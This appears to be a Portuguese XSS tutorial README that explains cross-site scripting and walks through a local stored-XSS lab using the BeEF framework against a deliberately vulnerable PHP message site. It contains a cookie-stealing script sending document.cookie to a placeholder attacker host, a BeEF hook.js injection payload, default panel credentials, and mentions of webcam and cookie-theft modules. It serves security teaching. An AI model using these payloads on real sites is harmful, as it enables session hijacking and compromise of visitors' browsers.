





# TUTORIAL XSS - cross site scripting

## O que é o XSS?

O cross site scripting (XSS) é um ataque de injeção de código que permite que um invasor execute JavaScript mal-intencionado no navegador de outro usuário.

O atacante não direciona diretamente a vítima. Em vez disso, ele explora uma vulnerabilidade em um site que a vítima visita, a fim de obter o site para entregar o JavaScript malicioso para ele. Para o navegador da vítima, o JavaScript malicioso parece ser uma parte legítima do site, e o site agiu como um cúmplice não intencional para o invasor.

## Como o JavaScript malicioso é injetado

A única maneira de o invasor executar o JavaScript mal-intencionado no navegador da vítima é injetá-lo em uma das páginas que a vítima baixa do site. Isso pode acontecer se o site incluir diretamente a entrada do usuário em suas páginas, porque o invasor pode inserir uma sequência que será tratada como código pelo navegador da vítima.

<!-- No exemplo abaixo, um script simples do lado do servidor é usado para exibir o comentário mais recente em um site:

```js
print "<html>"
print "Latest comment:"
print database.latestComment
print "</html>"
``` -->
### Atores em um ataque XSS
Antes de descrevermos em detalhes como um ataque XSS funciona, precisamos definir os atores envolvidos em um ataque XSS. Em geral, um ataque XSS envolve três atores: o site , a vítima e o invasor .

O site serve páginas HTML para usuários que as solicitam. Nos nossos exemplos, está localizado em http://website/.

O banco de dados do site é um banco de dados que armazena parte da entrada do usuário incluída nas páginas do site.

A **vítima** é um usuário normal do site que solicita páginas a partir dele usando seu navegador.

O **invasor** é um usuário mal-intencionado do site que pretende lançar um ataque à vítima explorando uma vulnerabilidade de XSS no site.

O **servidor do invasor** é um servidor da Web controlado pelo invasor com o único propósito de roubar as informações confidenciais da vítima. Nos nossos exemplos, está localizado em http://attacker/.

### Um exemplo de cenário de ataque

Neste exemplo, vamos assumir que o objetivo final do atacante é roubar os cookies da vítima explorando uma vulnerabilidade do XSS no site. Isso pode ser feito com o navegador da vítima analisando o seguinte código HTML:
```js
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
Esse script navega no navegador do usuário para um URL diferente, acionando uma solicitação HTTP para o servidor do invasor. O URL inclui os cookies da vítima como um parâmetro de consulta, que o invasor pode extrair da solicitação quando chega ao seu servidor. Uma vez que o invasor tenha adquirido os cookies, ele pode usá-los para representar a vítima e lançar novos ataques.

A partir de agora, o código HTML acima será referido como a cadeia maliciosa ou o script malicioso . É importante notar que a string em si é apenas maliciosa se for analisada como HTML no navegador da vítima, o que só pode acontecer como resultado de uma vulnerabilidade do XSS no site.

### Como funciona o ataque de exemplo
O diagrama abaixo ilustra como esse o exemplo de ataque pode ser executado por um invasor:


* O atacante cria uma URL contendo uma string maliciosa e a envia para a vítima.

* A vítima é enganada pelo atacante para solicitar o URL do site.

* O site inclui a sequência maliciosa do URL na resposta.

* O navegador da vítima executa o script malicioso dentro da resposta, enviando os cookies da vítima para o servidor do invasor.


# Visão geral BeEF Framework
O Browser Exploitation Framework (BeEF) é uma poderosa ferramenta de segurança profissional. O BeEF é uma técnica pioneira que fornece ao testador de penetração experiente vetores práticos de ataque do lado do cliente. Ao contrário de outras estruturas de segurança, o BeEF se concentra em aproveitar as vulnerabilidades do navegador para avaliar a postura de segurança de um alvo. Este projeto é desenvolvido exclusivamente para pesquisa legal e testes de penetração.

O BeEF conecta um ou mais navegadores da Web como cabeças de ponte para o lançamento de módulos de comando direcionados. Cada navegador provavelmente está em um contexto de segurança diferente e cada contexto pode fornecer um conjunto de vetores de ataque exclusivos. A estrutura permite que o testador de penetração selecione módulos específicos (em tempo real) para direcionar cada navegador e, portanto, cada contexto.

O framework contém vários módulos de comando que empregam a API simples e poderosa do BeEF. Essa API está no centro da eficácia e eficiência da estrutura. Ele abstrai a complexidade e facilita o desenvolvimento rápido de módulos personalizados.

# Prática

## Configuração de Ambiente 

### Primeiro instale o BeEF

[Guia de Instalação](https://github.com/beefproject/beef/wiki/Installation) 

### Em seguinda, caso não tenha instale o Servidor Web 

No nosso caso podemos usar o Xampp. 
Pois iremos utilizar o php, apache e o banco de dados.

[Instalação Xampp Ubuntu](http://www.codebind.com/linux-tutorials/install-xampp-ubuntu-16-04/)

#### Configurar o banco

Ao instalar o xamp ele traz a ferramenta phpmyadmin nela:
* Crie o banco com o nome "messeger"
* Importe o arquivo messeger.sql disponivel no projeto que será baixado e servirá para criar a tabela.


### Baixe este projeto

* Edite o arquivo db.php no projeto com os dados (usuario e senha) do seu banco.

* Após editar o arquivo, coloque na pasta (/opt/lampp/htdocs)

* Verifique se o servidor tá rodando e acesse http://localhost/messager/


Se tudo tive ocorrido bem está é a página que vai mostrar




## O Ataque

Para iniciar, iremos acessar a página onde o beef foi baixado ou clonado e lá iniciar o framework com o comando especificado abaixo:

``` js
./beef
```

Então preencha o formulário da tela anterior com um email qualquer text@text e no campo mensagem digite: 

``` js
<script src="http://127.0.0.1:3000/hook.js"></script>
```
Link encontrado após iniciar a aplicação


    Então esse script irá para o banco e será armazenado.

Após isso acessaremos o painel do beef com o link que se encontra na imagem

``` js
    http://127.0.0.1:3000/ui/panel
```
Então acessem a o painel com o usuário padrão *beef* e senha *beef* e então irá aparecer a página inicial da ferramenta.



Para saber se o site foi infectado, acesse 
http://localhost/messager/mensagens.php



Este é o resultado, está sendo mostrado a lista dos email e mensagens cadastrados.
Se você notar, existe um campo mensagem que está vázio, este é o campo que foi enviado o script malicioso.
Especionado a página, vc encontra o script que foi enviado anteriormente.

Acessando o panel do beef novamente você irá notar que depois de executar a listagem das mensagens o script ativou o monitoriamento na ferramenta e o site está infectado.



Após isso, clique no ip da máquina que deseja monitorar e então você pode acessar a aba comandos no menu vertical, no modulo browser existe diversos comandos para serem usados no site infectado como: acessar a webcam, obter cookies, obter links como também mudar links.

Existe uma infinidade de opções. Fique a vontade para usar.


# Referências   

https://excess-xss.com/#xss-attacks

https://github.com/beefproject/beef/wiki